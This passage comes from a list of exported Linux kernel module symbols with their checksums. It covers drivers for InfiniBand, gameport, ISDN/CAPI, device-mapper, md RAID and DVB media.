    drivers/infiniband/core/ib_core ib_alloc_mw 0x898c279d
    drivers/infiniband/core/ib_core ib_alloc_pd 0xabc94982
    drivers/infiniband/core/ib_core ib_attach_mcast 0xaea1f580
    drivers/infiniband/core/ib_core ib_create_ah 0x964c393e
    drivers/infiniband/core/ib_core ib_create_ah_from_wc 0xdc5707cd
    drivers/infiniband/core/ib_core ib_create_cq 0xf6025444
    drivers/infiniband/core/ib_core ib_create_fmr_pool 0x4f27ebff
    drivers/infiniband/core/ib_core ib_create_qp 0x37aba7b7
    drivers/infiniband/core/ib_core ib_create_srq 0xf5fa0913
    drivers/infiniband/core/ib_core ib_dealloc_device 0x6e8f8eff
    drivers/infiniband/core/ib_core ib_dealloc_fmr 0x3cd668fb
    drivers/infiniband/core/ib_core ib_dealloc_mw 0x94d9bdf3
    drivers/infiniband/core/ib_core ib_dealloc_pd 0x07855a59
    drivers/infiniband/core/ib_core ib_dereg_mr 0x5e16de53
    drivers/infiniband/core/ib_core ib_destroy_ah 0x3c3d954a
    drivers/infiniband/core/ib_core ib_destroy_cq 0xde670194
    drivers/infiniband/core/ib_core ib_destroy_fmr_pool 0x492d656f
    drivers/infiniband/core/ib_core ib_destroy_qp 0x5b5324e0
    drivers/infiniband/core/ib_core ib_destroy_srq 0xd973a680
    drivers/infiniband/core/ib_core ib_detach_mcast 0x04f634c0
    drivers/infiniband/core/ib_core ib_dispatch_event 0xe878e122
    drivers/infiniband/core/ib_core ib_find_cached_gid 0xbc4d99da
    drivers/infiniband/core/ib_core ib_find_cached_pkey 0x2c234bf5
    drivers/infiniband/core/ib_core ib_flush_fmr_pool 0x196af933
    drivers/infiniband/core/ib_core ib_fmr_pool_map_phys 0xf6ec6d24
    drivers/infiniband/core/ib_core ib_fmr_pool_unmap 0x8750682d
    drivers/infiniband/core/ib_core ib_get_cached_gid 0xf7e650de
    drivers/infiniband/core/ib_core ib_get_cached_pkey 0xafc83862
    drivers/infiniband/core/ib_core ib_get_client_data 0x588d8030
    drivers/infiniband/core/ib_core ib_get_dma_mr 0xb0bfa765
    drivers/infiniband/core/ib_core ib_modify_ah 0x821263b2
    drivers/infiniband/core/ib_core ib_modify_device 0x29ba3047
    drivers/infiniband/core/ib_core ib_modify_port 0xe3a34de8
    drivers/infiniband/core/ib_core ib_modify_qp 0x093914a6
    drivers/infiniband/core/ib_core ib_modify_srq 0x9ca9dfeb
    drivers/infiniband/core/ib_core ib_pack 0x520b2638
    drivers/infiniband/core/ib_core ib_query_ah 0xadbbbbe4
    drivers/infiniband/core/ib_core ib_query_device 0x85da69ae
    drivers/infiniband/core/ib_core ib_query_gid 0x7949f7b9
    drivers/infiniband/core/ib_core ib_query_mr 0xc236d219
    drivers/infiniband/core/ib_core ib_query_pkey 0x3c7bde0d
    drivers/infiniband/core/ib_core ib_query_port 0x2fa666cf
    drivers/infiniband/core/ib_core ib_query_qp 0x69e4be05
    drivers/infiniband/core/ib_core ib_query_srq 0x7f831255
    drivers/infiniband/core/ib_core ib_reg_phys_mr 0xf7facc4e
    drivers/infiniband/core/ib_core ib_register_client 0x94ec6b52
    drivers/infiniband/core/ib_core ib_register_device 0x339bb7fc
    drivers/infiniband/core/ib_core ib_register_event_handler 0xb29d8436
    drivers/infiniband/core/ib_core ib_rereg_phys_mr 0xb9621b8c
    drivers/infiniband/core/ib_core ib_resize_cq 0x9a4f31f5
    drivers/infiniband/core/ib_core ib_set_client_data 0xe27565c8
    drivers/infiniband/core/ib_core ib_ud_header_init 0x965c1dae
    drivers/infiniband/core/ib_core ib_ud_header_pack 0x8d12f837
    drivers/infiniband/core/ib_core ib_ud_header_unpack 0x11d42382
    drivers/infiniband/core/ib_core ib_unmap_fmr 0x1e491a04
    drivers/infiniband/core/ib_core ib_unpack 0xb1a312e1
    drivers/infiniband/core/ib_core ib_unregister_client 0x66bc4de4
    drivers/infiniband/core/ib_core ib_unregister_device 0x6d8bab24
    drivers/infiniband/core/ib_core ib_unregister_event_handler 0x859e0bba
    drivers/infiniband/core/ib_mad ib_cancel_mad 0xab7e9fff
    drivers/infiniband/core/ib_mad ib_coalesce_recv_mad 0x6a3bbc94
    drivers/infiniband/core/ib_mad ib_create_send_mad 0x39fa7e36
    drivers/infiniband/core/ib_mad ib_free_recv_mad 0xd6f8244e
    drivers/infiniband/core/ib_mad ib_free_send_mad 0xa64314d4
    drivers/infiniband/core/ib_mad ib_modify_mad 0xb60577ac
    drivers/infiniband/core/ib_mad ib_post_send_mad 0x3da58ba1
    drivers/infiniband/core/ib_mad ib_process_mad_wc 0xcee5e7bc
    drivers/infiniband/core/ib_mad ib_redirect_mad_qp 0x7605b507
    drivers/infiniband/core/ib_mad ib_register_mad_agent 0xe0c4fd74
    drivers/infiniband/core/ib_mad ib_register_mad_snoop 0x22f132b0
    drivers/infiniband/core/ib_mad ib_unregister_mad_agent 0x731141d4
    drivers/infiniband/core/ib_sa ib_sa_cancel_query 0xa9c0125b
    drivers/infiniband/core/ib_sa ib_sa_mcmember_rec_query 0xaecb7a40
    drivers/infiniband/core/ib_sa ib_sa_path_rec_get 0xa7b7d2ce
    drivers/infiniband/core/ib_sa ib_sa_service_rec_query 0xa426b90f
    drivers/input/gameport/gameport __gameport_register_driver 0x91ac7de7
    drivers/input/gameport/gameport __gameport_register_port 0xff547ada
    drivers/input/gameport/gameport gameport_close 0x2cd4f1fe
    drivers/input/gameport/gameport gameport_cooked_read 0xab38d129
    drivers/input/gameport/gameport gameport_open 0x56aa4104
    drivers/input/gameport/gameport gameport_rescan 0xa2e0e336
    drivers/input/gameport/gameport gameport_set_name 0xe3e0968c
    drivers/input/gameport/gameport gameport_set_phys 0xe6e950df
    drivers/input/gameport/gameport gameport_start_polling 0x9657bd60
    drivers/input/gameport/gameport gameport_stop_polling 0xc60408ef
    drivers/input/gameport/gameport gameport_unregister_driver 0x13f96a0a
    drivers/input/gameport/gameport gameport_unregister_port 0x29654f51
    drivers/isdn/capi/capifs capifs_free_ncci 0x2c54c957
    drivers/isdn/capi/capifs capifs_new_ncci 0xd0bc06ce
    drivers/isdn/capi/kernelcapi attach_capi_ctr 0x94dcd611
    drivers/isdn/capi/kernelcapi capi20_get_manufacturer 0x7e6f1307
    drivers/isdn/capi/kernelcapi capi20_get_profile 0xe19a11ac
    drivers/isdn/capi/kernelcapi capi20_get_serial 0x7a33596c
    drivers/isdn/capi/kernelcapi capi20_get_version 0x14f2aa5a
    drivers/isdn/capi/kernelcapi capi20_isinstalled 0x31c24aa4
    drivers/isdn/capi/kernelcapi capi20_manufacturer 0xed061606
    drivers/isdn/capi/kernelcapi capi20_put_message 0x1b763fc8
    drivers/isdn/capi/kernelcapi capi20_register 0x83dd7354
    drivers/isdn/capi/kernelcapi capi20_release 0x2848218b
    drivers/isdn/capi/kernelcapi capi20_set_callback 0xde18d9eb
    drivers/isdn/capi/kernelcapi capi_cmd2str 0xb19fda8d
    drivers/isdn/capi/kernelcapi capi_cmsg2message 0x50b33ca4
    drivers/isdn/capi/kernelcapi capi_cmsg2str 0xd45b5eb5
    drivers/isdn/capi/kernelcapi capi_cmsg_header 0xb60e5e5f
    drivers/isdn/capi/kernelcapi capi_ctr_handle_message 0x773d7757
    drivers/isdn/capi/kernelcapi capi_ctr_ready 0x62ceb7b6
    drivers/isdn/capi/kernelcapi capi_ctr_reseted 0xe1e37843
    drivers/isdn/capi/kernelcapi capi_ctr_resume_output 0xb53af43d
    drivers/isdn/capi/kernelcapi capi_ctr_suspend_output 0x12b15599
    drivers/isdn/capi/kernelcapi capi_info2str 0x47d3fc51
    drivers/isdn/capi/kernelcapi capi_message2cmsg 0x6057c6f3
    drivers/isdn/capi/kernelcapi capi_message2str 0xa7abc5e3
    drivers/isdn/capi/kernelcapi capilib_data_b3_conf 0x62e32d43
    drivers/isdn/capi/kernelcapi capilib_data_b3_req 0x71e8d5ba
    drivers/isdn/capi/kernelcapi capilib_free_ncci 0x2b8eab1f
    drivers/isdn/capi/kernelcapi capilib_new_ncci 0x2baa6586
    drivers/isdn/capi/kernelcapi capilib_release 0x8f699913
    drivers/isdn/capi/kernelcapi capilib_release_appl 0xaa165d27
    drivers/isdn/capi/kernelcapi detach_capi_ctr 0x316c50ce
    drivers/isdn/capi/kernelcapi register_capi_driver 0x9f823278
    drivers/isdn/capi/kernelcapi unregister_capi_driver 0x04403fcf
    drivers/isdn/hardware/avm/b1 avmcard_dma_alloc 0xa7ca7a10
    drivers/isdn/hardware/avm/b1 avmcard_dma_free 0xc573ae16
    drivers/isdn/hardware/avm/b1 b1_alloc_card 0xa5c9d6e5
    drivers/isdn/hardware/avm/b1 b1_detect 0xdfd28376
    drivers/isdn/hardware/avm/b1 b1_free_card 0x01be8f5d
    drivers/isdn/hardware/avm/b1 b1_getrevision 0x5100e126
    drivers/isdn/hardware/avm/b1 b1_interrupt 0x7c376ed0
    drivers/isdn/hardware/avm/b1 b1_irq_table 0x85f09690
    drivers/isdn/hardware/avm/b1 b1_load_config 0x16e30345
    drivers/isdn/hardware/avm/b1 b1_load_firmware 0xb75479dc
    drivers/isdn/hardware/avm/b1 b1_load_t4file 0xf8222f95
    drivers/isdn/hardware/avm/b1 b1_loaded 0x00a20dcb
    drivers/isdn/hardware/avm/b1 b1_parse_version 0x0ee814eb
    drivers/isdn/hardware/avm/b1 b1_register_appl 0x24c3b309
    drivers/isdn/hardware/avm/b1 b1_release_appl 0xc89855f0
    drivers/isdn/hardware/avm/b1 b1_reset_ctr 0xb4f5ab90
    drivers/isdn/hardware/avm/b1 b1_send_message 0x22fffb2a
    drivers/isdn/hardware/avm/b1 b1ctl_read_proc 0xb86902ff
    drivers/isdn/hardware/avm/b1dma b1dma_interrupt 0xb7858191
    drivers/isdn/hardware/avm/b1dma b1dma_load_firmware 0x16a6f1a1
    drivers/isdn/hardware/avm/b1dma b1dma_register_appl 0x3c87adfe
    drivers/isdn/hardware/avm/b1dma b1dma_release_appl 0x87057608
    drivers/isdn/hardware/avm/b1dma b1dma_reset 0x872cabba
    drivers/isdn/hardware/avm/b1dma b1dma_reset_ctr 0x6abccea0
    drivers/isdn/hardware/avm/b1dma b1dma_send_message 0xe56f8fa4
    drivers/isdn/hardware/avm/b1dma b1dmactl_read_proc 0x9e318762
    drivers/isdn/hardware/avm/b1dma b1pciv4_detect 0x79c4e3d0
    drivers/isdn/hardware/avm/b1dma t1pci_detect 0x209f25df
    drivers/isdn/hardware/avm/b1pcmcia b1pcmcia_addcard_b1 0xf14bf8b1
    drivers/isdn/hardware/avm/b1pcmcia b1pcmcia_addcard_m1 0xaec3240e
    drivers/isdn/hardware/avm/b1pcmcia b1pcmcia_addcard_m2 0xea620116
    drivers/isdn/hardware/avm/b1pcmcia b1pcmcia_delcard 0x29562993
    drivers/isdn/hardware/eicon/divadidd DIVA_DIDD_Read 0x2974ead1
    drivers/isdn/hardware/eicon/divadidd proc_net_eicon 0x3cfb049c
    drivers/isdn/hisax/hisax FsmChangeState 0x93a64734
    drivers/isdn/hisax/hisax FsmDelTimer 0x799088e0
    drivers/isdn/hisax/hisax FsmEvent 0x9df0cd27
    drivers/isdn/hisax/hisax FsmFree 0x148f0c99
    drivers/isdn/hisax/hisax FsmInitTimer 0x52866abe
    drivers/isdn/hisax/hisax FsmNew 0xf0a16657
    drivers/isdn/hisax/hisax FsmRestartTimer 0xde7e7906
    drivers/isdn/hisax/hisax HiSax_closecard 0xfc27303b
    drivers/isdn/hisax/hisax hisax_init_pcmcia 0x049a1906
    drivers/isdn/hisax/hisax hisax_register 0xee93522c
    drivers/isdn/hisax/hisax hisax_unregister 0x07f4f2ce
    drivers/isdn/hisax/hisax_isac isac_d_l2l1 0x3f3b323a
    drivers/isdn/hisax/hisax_isac isac_init 0x02eb3f64
    drivers/isdn/hisax/hisax_isac isac_irq 0xb45d7a1e
    drivers/isdn/hisax/hisax_isac isac_setup 0xf930678c
    drivers/isdn/hisax/hisax_isac isacsx_irq 0x626d6bc5
    drivers/isdn/hisax/hisax_isac isacsx_setup 0xf14c8d9a
    drivers/isdn/hisax/isdnhdlc isdnhdlc_bit_rev_tab 0xe82c3e32
    drivers/isdn/hisax/isdnhdlc isdnhdlc_decode 0x1a1afeef
    drivers/isdn/hisax/isdnhdlc isdnhdlc_encode 0x52a6537c
    drivers/isdn/hisax/isdnhdlc isdnhdlc_out_init 0x277685da
    drivers/isdn/hisax/isdnhdlc isdnhdlc_rcv_init 0x1dc6a9fc
    drivers/isdn/i4l/isdn isdn_ppp_register_compressor 0xe50df2d4
    drivers/isdn/i4l/isdn isdn_ppp_unregister_compressor 0xe3c293ff
    drivers/isdn/i4l/isdn isdn_register_divert 0xb7757abb
    drivers/isdn/i4l/isdn register_isdn 0xd594e556
    drivers/isdn/misdn/mISDN_core mISDN_AddIE 0xf419c7d2
    drivers/isdn/misdn/mISDN_core mISDN_AddvarIE 0x4c4b4889
    drivers/isdn/misdn/mISDN_core mISDN_ConnectIF 0xa66117d9
    drivers/isdn/misdn/mISDN_core mISDN_DisConnectIF 0x9a9149bb
    drivers/isdn/misdn/mISDN_core mISDN_FsmAddTimer 0x7214e53f
    drivers/isdn/misdn/mISDN_core mISDN_FsmChangeState 0x50c2230c
    drivers/isdn/misdn/mISDN_core mISDN_FsmDelTimer 0x3010393f
    drivers/isdn/misdn/mISDN_core mISDN_FsmEvent 0xd5145151
    drivers/isdn/misdn/mISDN_core mISDN_FsmFree 0x2348cc3c
    drivers/isdn/misdn/mISDN_core mISDN_FsmInitTimer 0x172da300
    drivers/isdn/misdn/mISDN_core mISDN_FsmNew 0xf9e7832f
    drivers/isdn/misdn/mISDN_core mISDN_FsmRestartTimer 0x50a5d950
    drivers/isdn/misdn/mISDN_core mISDN_HasProtocol 0x32c0f51a
    drivers/isdn/misdn/mISDN_core mISDN_LogL3Msg 0x5f1217e3
    drivers/isdn/misdn/mISDN_core mISDN_QuickHex 0x91b96ea6
    drivers/isdn/misdn/mISDN_core mISDN_RemoveUsedPID 0xd956d2e8
    drivers/isdn/misdn/mISDN_core mISDN_SetHandledPID 0x787734a1
    drivers/isdn/misdn/mISDN_core mISDN_SetIF 0xbbc1d873
    drivers/isdn/misdn/mISDN_core mISDN_alloc_l3msg 0x07fb757e
    drivers/isdn/misdn/mISDN_core mISDN_bprotocol2pid 0xed673eae
    drivers/isdn/misdn/mISDN_core mISDN_debug 0xff10c7d9
    drivers/isdn/misdn/mISDN_core mISDN_debugprint 0xc798e02f
    drivers/isdn/misdn/mISDN_core mISDN_free_bch 0x00f77e18
    drivers/isdn/misdn/mISDN_core mISDN_free_dch 0x3ab0ba2d
    drivers/isdn/misdn/mISDN_core mISDN_get_down_layer 0xd1c0ae73
    drivers/isdn/misdn/mISDN_core mISDN_get_lowlayer 0x9f6faa8f
    drivers/isdn/misdn/mISDN_core mISDN_get_protocol 0xc5fe53fd
    drivers/isdn/misdn/mISDN_core mISDN_get_up_layer 0xc6091c92
    drivers/isdn/misdn/mISDN_core mISDN_getrev 0x91f1a1b8
    drivers/isdn/misdn/mISDN_core mISDN_initQ931_info 0x45d57ad5
    drivers/isdn/misdn/mISDN_core mISDN_init_bch 0x5a94e9f6
    drivers/isdn/misdn/mISDN_core mISDN_init_dch 0x3e194d83
    drivers/isdn/misdn/mISDN_core mISDN_init_instance 0xedef90f0
    drivers/isdn/misdn/mISDN_core mISDN_l3_ie2pos 0x6a35c630
    drivers/isdn/misdn/mISDN_core mISDN_l3_pos2ie 0x31559777
    drivers/isdn/misdn/mISDN_core mISDN_layermask2layer 0x48cbe644
    drivers/isdn/misdn/mISDN_core mISDN_register 0x52836fb6
    drivers/isdn/misdn/mISDN_core mISDN_set_dchannel_pid 0xca03ed9e
    drivers/isdn/misdn/mISDN_core mISDN_unregister 0x91576da1
    drivers/isdn/misdn/mISDN_core vmISDN_debug 0x85718442
    drivers/isdn/misdn/mISDN_isac mISDN_ISAC_l1hw 0xf5976bcc
    drivers/isdn/misdn/mISDN_isac mISDN_clear_isac 0x42418626
    drivers/isdn/misdn/mISDN_isac mISDN_isac_free 0x654d4be4
    drivers/isdn/misdn/mISDN_isac mISDN_isac_init 0x1225c599
    drivers/isdn/misdn/mISDN_isac mISDN_isac_interrupt 0x2596df2c
    drivers/md/dm-mirror dm_create_dirty_log 0xf6acf51f
    drivers/md/dm-mirror dm_destroy_dirty_log 0xece310b1
    drivers/md/dm-mirror dm_register_dirty_log_type 0xe6cb8674
    drivers/md/dm-mirror dm_unregister_dirty_log_type 0x23e23a28
    drivers/md/dm-mod dm_get_device 0xa761e50d
    drivers/md/dm-mod dm_get_mapinfo 0x8963082b
    drivers/md/dm-mod dm_io_async 0x33dc2be7
    drivers/md/dm-mod dm_io_async_bvec 0x168b26f9
    drivers/md/dm-mod dm_io_async_vm 0xdbfa209b
    drivers/md/dm-mod dm_io_get 0xb3576650
    drivers/md/dm-mod dm_io_put 0x0feae9a7
    drivers/md/dm-mod dm_io_sync 0x8366d1d6
    drivers/md/dm-mod dm_io_sync_bvec 0x1089b3ba
    drivers/md/dm-mod dm_io_sync_vm 0x7a679c88
    drivers/md/dm-mod dm_put_device 0x5e8ba319
    drivers/md/dm-mod dm_register_target 0xdb5bef76
    drivers/md/dm-mod dm_table_event 0x97c0aa28
    drivers/md/dm-mod dm_table_flush_all 0x8d6bec0a
    drivers/md/dm-mod dm_table_get 0xd849e05d
    drivers/md/dm-mod dm_table_get_mode 0x218e1c73
    drivers/md/dm-mod dm_table_get_size 0x0f95d2e3
    drivers/md/dm-mod dm_table_put 0xc52370d1
    drivers/md/dm-mod dm_table_unplug_all 0x5cf3c6f5
    drivers/md/dm-mod dm_unregister_target 0xc09f20b2
    drivers/md/dm-mod dm_vcalloc 0xc79bcd36
    drivers/md/dm-mod kcopyd_cancel 0xb4afbff2
    drivers/md/dm-mod kcopyd_client_create 0x1a352482
    drivers/md/dm-mod kcopyd_client_destroy 0xffd33525
    drivers/md/dm-mod kcopyd_copy 0x3b3be703
    drivers/md/dm-multipath dm_pg_init_complete 0x85d35c5b
    drivers/md/dm-multipath dm_register_hw_handler 0x2e3e385d
    drivers/md/dm-multipath dm_register_path_selector 0x4d2c7cae
    drivers/md/dm-multipath dm_scsi_err_handler 0xbb5dbef5
    drivers/md/dm-multipath dm_unregister_hw_handler 0x84764639
    drivers/md/dm-multipath dm_unregister_path_selector 0x949851cf
    drivers/md/md-mod bitmap_close_sync 0x1c262335
    drivers/md/md-mod bitmap_daemon_work 0x58aca85f
    drivers/md/md-mod bitmap_end_sync 0xea90d6c1
    drivers/md/md-mod bitmap_endwrite 0x4aeacac2
    drivers/md/md-mod bitmap_start_sync 0x07226e8c
    drivers/md/md-mod bitmap_startwrite 0x4968a4fc
    drivers/md/md-mod bitmap_unplug 0x1036da2c
    drivers/md/md-mod md_check_recovery 0xa406fa1b
    drivers/md/md-mod md_done_sync 0x9ac30637
    drivers/md/md-mod md_error 0x1943352c
    drivers/md/md-mod md_print_devices 0xa8d36306
    drivers/md/md-mod md_register_thread 0xa86c7698
    drivers/md/md-mod md_unregister_thread 0xedc232ee
    drivers/md/md-mod md_wakeup_thread 0x8bb411ed
    drivers/md/md-mod md_write_end 0xc623b24a
    drivers/md/md-mod md_write_start 0x20c9277f
    drivers/md/md-mod register_md_personality 0xcb2ddca9
    drivers/md/md-mod unregister_md_personality 0x4c95198d
    drivers/md/xor xor_block 0xbfd30a63
    drivers/media/common/ir-common ir_codes_empty 0x4740e7a3
    drivers/media/common/ir-common ir_codes_hauppauge_new 0x902a3cd2
    drivers/media/common/ir-common ir_codes_pinnacle 0xd3a0f048
    drivers/media/common/ir-common ir_codes_pixelview 0xfa177653
    drivers/media/common/ir-common ir_codes_rc5_tv 0xd9c7f010
    drivers/media/common/ir-common ir_codes_winfast 0x89cc1189
    drivers/media/common/ir-common ir_decode_biphase 0x43c89ef4
    drivers/media/common/ir-common ir_decode_pulsedistance 0x2456e513
    drivers/media/common/ir-common ir_dump_samples 0x6d6511e7
    drivers/media/common/ir-common ir_extract_bits 0x1cb148f5
    drivers/media/common/ir-common ir_input_init 0x50e6dd61
    drivers/media/common/ir-common ir_input_keydown 0x02ca45d7
    drivers/media/common/ir-common ir_input_nokey 0x0bbd68ea
    drivers/media/common/saa7146 saa7146_debug 0xe3cd9b5c
    drivers/media/common/saa7146 saa7146_devices 0xcf683cf2
    drivers/media/common/saa7146 saa7146_devices_lock 0x489a5dd1
    drivers/media/common/saa7146 saa7146_i2c_adapter_prepare 0xd5406462
    drivers/media/common/saa7146 saa7146_i2c_transfer 0xa29c42ad
    drivers/media/common/saa7146 saa7146_pgtable_alloc 0x64284e53
    drivers/media/common/saa7146 saa7146_pgtable_build_single 0x62bdd42f
    drivers/media/common/saa7146 saa7146_pgtable_free 0x8fba1fbd
    drivers/media/common/saa7146 saa7146_register_extension 0x178b1892
    drivers/media/common/saa7146 saa7146_setgpio 0x138be5bf
    drivers/media/common/saa7146 saa7146_unregister_extension 0xa003a9c0
    drivers/media/common/saa7146 saa7146_vmalloc_build_pgtable 0xd1b4ed9e
    drivers/media/common/saa7146 saa7146_wait_for_debi_done 0xda40fd87
    drivers/media/common/saa7146_vv saa7146_register_device 0x29c2be51
    drivers/media/common/saa7146_vv saa7146_set_hps_source_and_sync 0x2af09a3d
    drivers/media/common/saa7146_vv saa7146_start_preview 0xb854bfe9
    drivers/media/common/saa7146_vv saa7146_stop_preview 0x2b5e24f8
    drivers/media/common/saa7146_vv saa7146_unregister_device 0x94b1bddc
    drivers/media/common/saa7146_vv saa7146_vv_init 0xf7a08d7a
    drivers/media/common/saa7146_vv saa7146_vv_release 0x968bd4ef
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_device_exit 0x347cd27e
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_device_initialize 0x636691d3
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_device_kfree 0x0a199c4f
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_device_kmalloc 0xd227a719
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_allocate 0x0f6b08a7
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_config 0xf85b7566
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_config_packet_count 0xc138d8e7
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_config_timer 0xc20cbdf6
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_control_packet_irq 0xca81d7de
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_control_size_irq 0x7f1a9c6e
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_control_timer_irq 0x18f1ea25
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_free 0xb3fb6700
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dma_xfer_control 0x9a97fd5a
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_dump_reg 0x68dcad8f
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_eeprom_check_mac_addr 0xf5422500
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_i2c_request 0x03185e45
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_pass_dmx_data 0x6a641097
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_pass_dmx_packets 0x9bf28b0a
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_reset_block_300 0x10bece46
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_sram_ctrl 0x03614546
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_sram_set_dest 0x05fbc466
    drivers/media/dvb/b2c2/b2c2-flexcop flexcop_wan_set_speed 0x8f7ce2cc
    drivers/media/dvb/bt8xx/bt878 bt878 0xcb1731bd
    drivers/media/dvb/bt8xx/bt878 bt878_debug 0x4ac84305
    drivers/media/dvb/bt8xx/bt878 bt878_device_control 0xbfc6a055
    drivers/media/dvb/bt8xx/bt878 bt878_num 0xd5d0bdef
    drivers/media/dvb/bt8xx/bt878 bt878_start 0xfbdeaf9c
    drivers/media/dvb/bt8xx/bt878 bt878_stop 0x594bb0b9
    drivers/media/dvb/bt8xx/bt878 bt878_verbose 0xb459c42b
    drivers/media/dvb/bt8xx/dst dst_attach 0x146ffad7
    drivers/media/dvb/bt8xx/dst dst_check_sum 0xe94b8c9c
    drivers/media/dvb/bt8xx/dst dst_comm_init 0x0aa23f01
    drivers/media/dvb/bt8xx/dst dst_command 0xe0220db2
    drivers/media/dvb/bt8xx/dst dst_error_bailout 0xc59b3448
    drivers/media/dvb/bt8xx/dst dst_error_recovery 0x148c8d18
    drivers/media/dvb/bt8xx/dst dst_gpio_inb 0x2ecdfc5b
    drivers/media/dvb/bt8xx/dst dst_gpio_outb 0x5b5a4245
    drivers/media/dvb/bt8xx/dst dst_pio_disable 0x53556240
    drivers/media/dvb/bt8xx/dst dst_pio_enable 0xa7e7871c
    drivers/media/dvb/bt8xx/dst dst_wait_dst_ready 0xed86bd0d
    drivers/media/dvb/bt8xx/dst rdc_8820_reset 0xc987990e
    drivers/media/dvb/bt8xx/dst rdc_reset_state 0x0f75001e
    drivers/media/dvb/bt8xx/dst read_dst 0x37ce702e
    drivers/media/dvb/bt8xx/dst write_dst 0x9539074c
    drivers/media/dvb/bt8xx/dst_ca dst_ca_attach 0x060d6503
    drivers/media/dvb/dvb-core/dvb-core dvb_ca_en50221_camchange_irq 0xc0b15d13
    drivers/media/dvb/dvb-core/dvb-core dvb_ca_en50221_camready_irq 0x60e316e4
    drivers/media/dvb/dvb-core/dvb-core dvb_ca_en50221_frda_irq 0xb41b2e22
    drivers/media/dvb/dvb-core/dvb-core dvb_ca_en50221_init 0xf4112729
    drivers/media/dvb/dvb-core/dvb-core dvb_ca_en50221_release 0x13e88870
    drivers/media/dvb/dvb-core/dvb-core dvb_dmx_init 0x82dd5457
    drivers/media/dvb/dvb-core/dvb-core dvb_dmx_release 0x6351d298
    drivers/media/dvb/dvb-core/dvb-core dvb_dmx_swfilter 0x6cfe08f9
    drivers/media/dvb/dvb-core/dvb-core dvb_dmx_swfilter_204 0xfec24d63
    drivers/media/dvb/dvb-core/dvb-core dvb_dmx_swfilter_packets 0x5645e525
    drivers/media/dvb/dvb-core/dvb-core dvb_dmxdev_init 0x99123cea
    drivers/media/dvb/dvb-core/dvb-core dvb_dmxdev_release 0xe1f5edb6
    drivers/media/dvb/dvb-core/dvb-core dvb_filter_get_ac3info 0x80e3832d
    drivers/media/dvb/dvb-core/dvb-core dvb_filter_pes2ts 0xf826deb0
    drivers/media/dvb/dvb-core/dvb-core dvb_filter_pes2ts_init 0x74a5a698
    drivers/media/dvb/dvb-core/dvb-core dvb_frontend_sleep_until 0x36c8ea1f
    drivers/media/dvb/dvb-core/dvb-core dvb_generic_ioctl 0x3d2dac24
    drivers/media/dvb/dvb-core/dvb-core dvb_generic_open 0x54bfa7cb
    drivers/media/dvb/dvb-core/dvb-core dvb_generic_release 0xda60a353
    drivers/media/dvb/dvb-core/dvb-core dvb_net_init 0xec16f9fd
    drivers/media/dvb/dvb-core/dvb-core dvb_net_release 0x0be9b489
    drivers/media/dvb/dvb-core/dvb-core dvb_register_adapter 0x3af13199
    drivers/media/dvb/dvb-core/dvb-core dvb_register_device 0xbfe459fc
    drivers/media/dvb/dvb-core/dvb-core dvb_register_frontend 0x30d7030c
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_avail 0x77ed7134
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_empty 0x8e964c42
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_flush 0xb56989a3
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_flush_spinlock_wakeup 0x1a271826
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_free 0x97f27bbf
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_init 0x77762220
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_pkt_dispose 0xba98e261
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_pkt_next 0x18afc019
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_pkt_read 0xe891dadc
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_pkt_write 0xf8f45459
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_read 0xb4133c94
    drivers/media/dvb/dvb-core/dvb-core dvb_ringbuffer_write 0x4f7e5d2c
    drivers/media/dvb/dvb-core/dvb-core dvb_unregister_adapter 0xafc6dbd1
    drivers/media/dvb/dvb-core/dvb-core dvb_unregister_device 0x546e8304
    drivers/media/dvb/dvb-core/dvb-core dvb_unregister_frontend 0x71d4842d
    drivers/media/dvb/dvb-core/dvb-core timeval_usec_diff 0x8b49a23f
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_device_exit 0x1ef13b7b
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_device_init 0xb5c7a110
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_generic_rw 0xbb4970d8
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_generic_write 0xb4d9b06b
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_nec_rc_key_to_event 0x8b93f7f3
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_pll_init_i2c 0x25e300de
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_pll_set 0x5cf836c1
    drivers/media/dvb/dvb-usb/dvb-usb dvb_usb_pll_set_i2c 0x812693ca
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb2_0_power_ctrl 0xeef13826
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb2_0_streaming_ctrl 0x7857338d
